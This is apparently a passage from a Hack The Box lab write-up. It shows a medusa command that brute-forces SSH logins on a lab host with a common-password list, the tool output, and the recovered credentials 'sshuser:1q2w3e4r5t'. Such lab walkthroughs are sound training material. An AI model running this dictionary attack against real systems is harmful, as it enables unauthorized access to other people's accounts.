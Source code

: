 Then read the file to get the flag:

```shell-session
smoothment@htb[/htb]$ cat flag.txt
HTB{...}
```

# Questions
---

![Pasted image 20250213152556.png](../../../../IMAGES/Pasted%20image%2020250213152556.png)

Let's begin by launching the default medusa scan:

```
medusa -h 94.237.54.164 -n 59668 -u sshuser -P 2023-200_most_used_passwords.txt -M ssh -t 3
```


After a while, we get the following:

```
 Password: 987654321 (43 of 200 complete)
ACCOUNT CHECK: [ssh] Host: 94.237.54.164 (1 of 1, 0 complete) User: sshuser (1 of 1, 0 complete) Password: demo (44 of 200 complete)
ACCOUNT CHECK: [ssh] Host: 94.237.54.164 (1 of 1, 0 complete) User: sshuser (1 of 1, 0 complete) Password: 12341234 (45 of 200 complete)
ACCOUNT CHECK: [ssh] Host: 94.237.54.164 (1 of 1, 0 complete) User: sshuser (1 of 1, 0 complete) Password: 1q2w3e4r5t (46 of 200 complete)
ACCOUNT FOUND: [ssh] Host: 94.237.54.164 User: sshuser Password: 1q2w3e4r5t [SUCCESS]
```


We got credentials for ssh:

```
`sshuser`:`1q2w3e4r5t`
```
